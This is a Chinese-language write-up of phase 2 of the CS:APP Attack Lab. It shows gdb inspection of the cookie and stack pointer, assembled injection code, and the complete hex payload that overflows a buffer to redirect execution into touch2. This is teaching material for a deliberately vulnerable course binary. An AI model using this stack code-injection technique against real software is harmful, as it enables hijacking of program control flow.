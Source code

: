 #### 解析

**1. 注意到touch2函数需要比较val与cookie的值，所以必须将cookie也注入进去；**

**2. ret指令是弹栈操作，与push操作一起可以实现传递参数和修改返回地址；**

**3. 实际上进行了两次ret**

![](C:\Github_io\source\img\csapp\attach_phase2.png)

- 我们先深入理解ret指令：

  >  在CPU中有一个“PC”即程序寄存器，在 x86-64 中用%rip表示，它时刻指向将要执行的下一条指令在内存中的地址。而我们的ret指令就相当于：
  >
  > ~~~assembly
  > pop %rip
  > ~~~

  > **即把栈中存放的地址弹出作为下一条指令的地址。**
  >
  > 利用push和ret就能实现我们的指令转移

- 查看cookie值

~~~bash
(gdb) x 0x6044e4
0x6044e4 <cookie>:      0x59b997fa
~~~

- 第一次ret重新回到getbuf的栈顶执行

~~~bash
(gdb) p $rsp
$1 = (void *) 0x5561dc78
~~~

- 产生字节码文件

~~~bash
gcc -c injectcode.s
objdump -d injectcode.o > injectcode.d
~~~

~~~assembly
phase2ass.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
~~~

- 注入的二进制数据十六进制表示

~~~
48 c7 c7 fa 97 b9 59 68 
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
~~~
